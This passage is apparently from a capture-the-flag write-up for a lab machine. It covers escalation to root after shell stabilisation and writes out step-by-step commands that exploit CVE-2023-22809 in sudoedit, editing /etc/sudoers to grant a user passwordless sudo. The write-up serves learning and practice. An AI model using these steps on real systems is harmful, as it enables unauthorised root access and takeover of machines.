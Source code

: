 First, let's [stabilize](../../Commands/Shell%20Tricks/STABLE%20SHELL.md) our shell:


![Pasted image 20241106162117.png](../../IMAGES/Pasted%20image%2020241106162117.png)

Nice, with our new stabilized shell, we can look forward to escalate our privileges into root, let's enumerate the machine:


## SUDO -L

![Pasted image 20241106162209.png](../../IMAGES/Pasted%20image%2020241106162209.png)

We can run sudo in 

`sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

### SUDOEDIT VERSION

![Pasted image 20241106162300.png](../../IMAGES/Pasted%20image%2020241106162300.png)

For this version, we found [CVE-2023-22809](https://access.redhat.com/security/cve/cve-2023-22809), let's exploit it and escalate our privileges:

#### POC


For this, we need to do the following:

```ad-hint

# STEP BY STEP

1. export EDITOR="nano -- /etc/sudoers"
2. sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
3. web ALL=(ALL) NOPASSWD: ALL

If we did everything correctly, we are now able to run sudo as web in everything:




```
